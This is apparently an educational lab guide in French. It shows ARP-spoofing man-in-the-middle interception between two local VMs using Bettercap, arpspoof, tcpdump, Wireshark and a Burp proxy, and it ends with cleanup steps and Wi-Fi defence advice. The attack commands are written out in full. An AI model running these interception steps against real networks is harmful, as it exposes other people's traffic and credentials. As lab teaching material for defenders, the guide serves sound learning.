






<h1 align="center">MITM Attack</h1>

Du scénario Hacker à la défense

---

# 🚨 MITM Attack 

##  Objectif
Montrer, dans un environnement **100% local**, comment un attaquant placé dans un lieu public (gare, aéroport, café…) pourrait intercepter le trafic d’une victime via **ARP spoofing**.

⚠️ **Légal / éthique** : ne jamais appliquer hors d’un labo dont vous avez le contrôle.
Ce guide est destiné à l’**apprentissage/défense** et au **pentest autorisé uniquement**.

---

##  Sommaire

1. Contexte “hacker en lieu public”
2. Architecture du labo & prérequis
3. Paramétrage VirtualBox
4. Adressage & tests LAN
5. Découverte réseau (Nmap)
6. Transformer Parrot en routeur NAT
7. Configurer la victime pour sortir sur Internet via Parrot
8. Attaque MITM (Bettercap ou arpspoof)
9. Observation du trafic (tcpdump / Wireshark)
10. Option : Proxy/Burp (HTTP)
11. Nettoyage complet des machines
12. Dépannage rapide

---

##  Contexte “hacker en lieu public”

Dans un **aéroport** ou un **café**, un attaquant peut se placer entre les clients et Internet :

- créer un faux hotspot ou s’insérer dans un réseau existant,
- empoisonner l’ARP (MITM) pour que la victime envoie son trafic à l’attaquant,
- observer ou modifier le trafic non chiffré (HTTP, DNS, etc.).

👉 Dans ce projet, nous reproduisons ces techniques **en labo local** pour apprendre à les comprendre et s’en défendre.

---

## 🧱 Architecture du labo & prérequis  

### VMs  

**Parrot OS (attaquant)**  
- NIC1 : NAT (sortie Internet de la VM) → enp0s8 (ex. 10.0.3.15/24)  
- NIC2 : Internal Network nommé LAB → enp0s3  

**Debian (victime)**  
- NIC1 : Internal Network LAB → enp0s3  

---

### 🗺️ Plan d’adressage (réseau interne LAB)  
- Parrot (enp0s3) : 192.168.100.20/24  
- Debian (enp0s3) : 192.168.100.10/24  
- Passerelle “vue par Debian” : 192.168.100.20 (Parrot)  

---

### 🛠️ Logiciels utiles (côté Parrot)  
- nmap  
- bettercap (ou dsniff/arpspoof)  
- tcpdump  
- wireshark  
- iptables  

---

## ⚙️ Paramétrage VirtualBox  

**Parrot → Paramètres > Réseau**  
- Carte 1 : NAT  
- Carte 2 : Réseau interne → Nom : LAB  

**Debian → Paramètres > Réseau**  
- Carte 1 : Réseau interne → Nom : LAB  

➡️ Démarrez les deux VMs.  

---

## 🔢 Adressage & tests LAN  

### Parrot (root)  
ip addr add 192.168.100.20/24 dev enp0s3   
ip link set enp0s3 up    
ip -br a  

### Debian (root)  
ip addr add 192.168.100.10/24 dev enp0s3   
ip link set enp0s3 up   
ip -br a

## 🔢 Adressage & tests LAN

<table>
<tr>
<td align="center"><b>Parrot (attaquant)</b> 

</td>
<td align="center"><b>Debian (victime)</b> 

</td>
</tr>
</table>

---

### ✅ Tests LAN  
Depuis Debian :  

ping 192.168.100.20

Depuis Parrot :  
ping 192.168.100.10

✔️ Réponses reçues = réseau interne OK  

**Tests ping**

---

## 🔎 Découverte réseau (Nmap)  

Sur Parrot :  
nmap -sn 192.168.100.0/24

Résultat attendu :  
- 192.168.100.10 (Debian)  
- 192.168.100.20 (Parrot)

## 🔎 Découverte réseau (Nmap)

## 🔁 Transformer Parrot en routeur NAT  

### Sur Parrot (root)  

Activer le routage IPv4 (temporaire) :  

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A POSTROUTING -o enp0s8 -j MASQUERADE

---

## 🌐 Configurer la victime pour sortir sur Internet via Parrot  

### Sur Debian (root)  

Définir Parrot comme passerelle par défaut :  
ip route add default via 192.168.100.20 dev enp0s3

Configurer un DNS (temporaire, pour le TP) :  

ping -c 3 8.8.8.8   # doit répondre
ping -c 3 google.com   # doit répondre si DNS OK

---

## Observation du trafic (tcpdump / Wireshark)

 tcpdump (rapide)

bash
tcpdump -i enp0s3 ou pour DNS uniquement
tcpdump -i enp0s3 port 53

### Wireshark (confort)

Lancer Wireshark sur Parrot → interface enp0s3 (réseau LAB).

Filtres utiles (dans la barre de filtre d’affichage) :

dns → requêtes DNS

icmp → pings

 http → HTTP en clair

ip.addr == 192.168.100.10 → trafic de la victime

💡 Vous pouvez aussi ouvrir le fichier /root/capture.pcap généré par Bettercap pour l’analyser directement.

### 👀 Observation du trafic (tcpdump / Wireshark)

- 📸 tcpdump  
  
[Voir en grand](./senarioTCP.PNG)

**Wireshark**

---

## 🕵️ Attaque MITM (Bettercap ou arpspoof)  

### Option A — Bettercap *(recommandé)*  

Sur Parrot :  
bettercap -iface enp0s3

Dans la console bettercap :  
net.recon on
net.show

set arp.spoof.targets 192.168.100.10
arp.spoof on

set net.sniff.output /root/capture.pcap
net.sniff on

arpspoof -i enp0s3 -t 192.168.100.10 192.168.100.1
arpspoof -i enp0s3 -t 192.168.100.1 192.168.100.10

ℹ️ Ici `192.168.100.1` représente la “passerelle” vue par la victime.  
👉 Dans notre montage, où Parrot **est déjà la passerelle**, il est plus simple et plus sûr d’utiliser **Bettercap**.  

📸 Exemple d’exécution :

---

### 🧪 Option : Proxy/Burp (HTTP)

> **Note :** Intercepter du trafic HTTPS exige la gestion de certificats (CA Burp).
> Pour ce TP, on garde simple → uniquement HTTP.

---

#### ⚙️ Configuration Burp (attaquant — Parrot)
- **Proxy > Proxy Listeners** : écouter sur `192.168.100.20:8080`

#### ⚙️ Configuration Firefox (victime — Debian)
- **Paramètres réseau** → Configuration manuelle du proxy
- HTTP Proxy : `192.168.100.20`
- Port : `8080`
- (Option) Cochez *Utiliser également ce proxy pour HTTPS* seulement si vous avez installé la CA.
Sinon, gardez-le uniquement pour les tests HTTP.

#### 🔎 Test
1. Dans Burp → `Proxy > Intercept` : **Intercept is on**
2. Depuis Debian → ouvrez un site HTTP comme :
👉 [http://neverssl.com](http://neverssl.com)
3. Les requêtes doivent apparaître dans Burp.

➡️ Si rien n’apparaît :
- Vérifiez IP et port.
- Assurez-vous que l’écouteur Burp est actif.
- Confirmez que Firefox n’est pas réglé sur "Pas de proxy".

---

### 🧹 Nettoyage complet des machines

Debian (victime)

-  Supprimer la route par défaut (via Parrot)
ip route del default  

- (Facultatif) Enlever l’IP labo si configurée manuellement
ip addr del 192.168.100.10/24 dev enp0s3  

- Purger le cache ARP
ip neigh flush all  

-  Redémarrer proprement l’interface
ip link set enp0s3 down && ip link set enp0s3 up  

- (Option) Rétablir /etc/resolv.conf
printf 'nameserver 1.1.1.1\n' > /etc/resolv.conf  

- Vérifications
ip -br a
ip route

---

Parrot (attaquant)

Stopper Bettercap / arpspoof / tcpdump / Wireshark
pkill -9 bettercap arpspoof tcpdump wireshark 2>/dev/null

Désactiver le routage
echo 0 > /proc/sys/net/ipv4/ip_forward

Supprimer la règle NAT
iptables -t nat -D POSTROUTING -o enp0s8 -j MASQUERADE

Purger ARP et cache des routes
ip neigh flush all
ip route flush cache

(Facultatif) Enlever l’IP labo si configurée manuellement
ip addr del 192.168.100.20/24 dev enp0s3 2>/dev/null

Redémarrer proprement l’interface
ip link set enp0s3 down && ip link set enp0s3 up

Vérifications
ip -br a
iptables -t nat -S | grep POSTROUTING || echo "NAT nettoyé ✅

---

## Se protéger sur un Wi-Fi public

### 🔒 Bonnes pratiques utilisateur
- ☑️ **Utiliser un VPN** → chiffre tout le trafic même si le Wi-Fi est compromis.
- ☑️ **Éviter les réseaux ouverts** (sans mot de passe WPA2/WPA3).
- ☑️ **Désactiver la connexion automatique** aux anciens hotspots enregistrés.
- ☑️ **Ne jamais installer de certificats inconnus** (ex. si une page vous demande d’accepter un certificat → FUITE !).
- ☑️ **Préférer 4G/5G** pour les opérations sensibles (banque, achats).
- ☑️ **Vérifier les certificats dans le navigateur** (alerte = stop immédiat).
- ☑️ **Désactiver le partage de fichiers** (Windows / macOS → couper “Partage réseau”).

---

###  Côté administrateur (Wi-Fi public)
- Configurer le Wi-Fi avec **WPA2-Enterprise / WPA3** (éviter l’ouvert sans mot de passe).
- Mettre en place une **segmentation VLAN** (isolation client-à-client).
- Activer **Dynamic ARP Inspection (DAI)** et **Port Security** sur l’infra réseau.
- Surveiller le réseau avec un **IDS/IPS** (détection ARP spoof, DNS falsifiés).

---

###  Résumé express
- 🔗 VPN obligatoire
-  Éviter réseaux ouverts
- 🔐 WPA2/WPA3 + isolation clients
-  Pas de certificats douteux
-  Si doute → passer en 4G/5G
	

